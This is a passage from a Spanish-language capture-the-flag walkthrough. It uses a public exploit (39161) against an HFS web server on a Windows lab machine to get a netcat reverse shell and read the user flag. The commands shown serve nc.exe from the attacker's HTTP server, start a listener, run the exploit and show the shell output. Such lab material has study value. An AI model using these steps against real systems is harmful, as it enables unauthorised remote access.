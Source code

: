 Analizando el Exploit, parece que utiliza el **binario nc.exe** para mandarnos una **Reverse Shell**, pero para poder cargarlo, necesitamos tenerlo disponible en un servidor propio:
```bash
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
#          You may need to run it multiple times for success!
...
...
...
	ip_addr = "Tu_IP" #local IP address
	local_port = "443" # Local Port number
...
...
```
Modifícalo con tu IP y un puerto que quieras usar.

Ahora, hay que copiar el **binario nc.exe**:
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

Levanta un servidor con **Python** en donde tengas el binario:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Abre una **netcat** utilizando **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Y ahora sí, ejecuta el Exploit usando **Python2**:
```bash
python2 39161.py 192.168.1.180 80
```

Revisa la **netcat**:
```batch
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.180] 49181
Microsoft Windows [Versi�n 6.3.9600]
(c) 2013 Microsoft Corporation. Todos los derechos reservados.

C:\Users\hacker\Downloads>whoami
whoami
win-re8njpg9k5n\hacker
```
Otra vez estamos dentro.

Y ya solamente buscamos la flag del usuario:

```batch
C:\Users\hacker\Downloads>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 4410-AF3A

 Directorio de C:\Users\hacker\Downloads

18/03/2025  15:29    <DIR>          .
18/03/2025  15:29    <DIR>          ..
23/06/2024  11:33    <DIR>          %TEMP%
22/06/2024  18:52           760.320 hfs.exe
18/03/2025  13:42            59.392 nc.exe
23/06/2024  11:29                33 user.txt
```